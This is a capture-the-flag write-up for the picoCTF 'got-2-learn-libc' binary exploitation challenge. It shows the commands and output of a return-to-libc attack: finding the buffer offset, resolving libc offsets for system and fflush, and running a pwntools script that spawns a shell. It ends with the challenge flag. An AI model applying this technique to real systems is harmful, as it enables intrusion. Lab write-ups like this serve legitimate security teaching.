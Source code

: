 # got-2-learn-libc
Binary Exploitation - 250 points

## Challenge 
> This [program](vuln) gives you the address of some system calls. Can you get a shell? You can find the program in /problems/got-2-learn-libc_2_2d4a9f3ed6bf71e90e938f1e020fb8ee on the shell server. 

> [Source.](vuln.c)

## Hint
> try returning to systems calls to leak information

> don't forget you can always return back to main()

## Solution

References:

 - https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf
 - https://sploitfun.wordpress.com/2015/05/08/bypassing-aslr-part-i/
 - https://security.stackexchange.com/questions/168101/return-to-libc-finding-libcs-address-and-finding-offsets

---


Find buffer offset

    $ pwn cyclic 200 | strace ./vuln 
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x62616170} ---
    +++ killed by SIGSEGV +++
    Segmentation fault

    $ pwn cyclic -l 0x62616170
    160


Find libc offset
https://security.stackexchange.com/questions/168101/return-to-libc-finding-libcs-address-and-finding-offsets

    $ ldd vuln
        linux-gate.so.1 (0xf76ef000)
        libc.so.6 => /lib32/libc.so.6 (0xf7507000)
        /lib/ld-linux.so.2 (0xf76f0000)

    $ readelf -s /lib32/libc.so.6 | grep fflush
        ...
        103: 00065fd0   291 FUNC    WEAK   DEFAULT   13 fflush@@GLIBC_2.0

    $ readelf -s /lib32/libc.so.6 | grep system
        ...
        1510: 0003d7e0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

Putting into pwntools

    $ python ~/solve.py
    [+] Starting local process './vuln': pid 441090
    ('puts', '0xf7589140')
    ('fflush_addr', '0xf7587330')
    ('useful_string_addr', '0x5656b030')
    
    [*] Switching to interactive mode

    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@IV?junk0\xb0VV
    Thanks! Exiting now...
    $ ls
    flag.txt  vuln    vuln.c
    $ cat flag.txt
    picoCTF{syc4al1s_4rE_uS3fUl_bd99244d}

## Flag

    picoCTF{syc4al1s_4rE_uS3fUl_bd99244d}
